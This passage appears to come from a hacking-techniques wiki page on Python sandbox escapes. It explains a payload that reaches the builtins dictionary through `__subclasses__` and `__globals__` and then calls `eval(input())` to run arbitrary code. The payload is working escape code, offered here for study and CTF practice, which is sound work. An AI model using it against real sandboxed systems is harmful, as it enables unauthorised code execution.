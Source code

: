 It basically does the following things, for those strings we get it from the `__dir__` method:

```python
getattr = (None).__getattribute__('__class__').__getattribute__
builtins = getattr(
  getattr(
    getattr(
      [].__getattribute__('__class__'),
    '__base__'),
  '__subclasses__'
  )()[-2],
'__repr__').__getattribute__('__globals__')['builtins']
builtins['eval'](builtins['input']())
```

{{#include ../../../banners/hacktricks-training.md}}


